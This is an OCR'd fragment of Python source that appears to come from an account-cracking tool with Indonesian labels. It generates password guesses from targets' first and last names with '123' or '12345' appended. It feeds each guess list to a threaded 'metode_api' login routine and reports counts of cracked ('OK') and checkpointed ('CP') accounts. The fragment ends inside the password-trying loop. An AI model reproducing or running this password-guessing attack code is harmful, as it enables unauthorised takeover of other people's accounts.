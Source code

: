 							if len(depan)<3:

								pass 

							else:

								pwx.append(depan+"123")

								pwx.append(depan+"12345")

						else:

							if len(depan)<3:

								pwx.append(nama)

							else:

								pwx.append(nama)

								pwx.append(depan+"123")

								pwx.append(depan+"12345")

							belakang = nama.split(" ")[1]

							if len(belakang)<3:

								pwx.append(depan+belakang)

							else:

								pwx.append(depan+belakang)

								pwx.append(belakang+"123")

								pwx.append(belakang+"12345")

						fall.submit(self.metode_api,user,pwx)

					except:

						fall.submit(self.metode_api,user,pwx)

		prints(Panel(f"""{P2}berhasil crack total {len(tampung)} id, dengan hasil OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}""",width=80,padding=(0,8),style=f"{color_panel}"))

		sys.exit()

							

	###----------[ METODE API ]---------- ###

	def metode_api(self,email,pwx):

		prog.update(des,description=f" {H2}•{P2} crack {H2}aman{P2} {str(self.loop)}/{len(tampung)} OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}")

		prog.advance(des)

		try:

			for pw in pwx:

				pw = pw.lower()
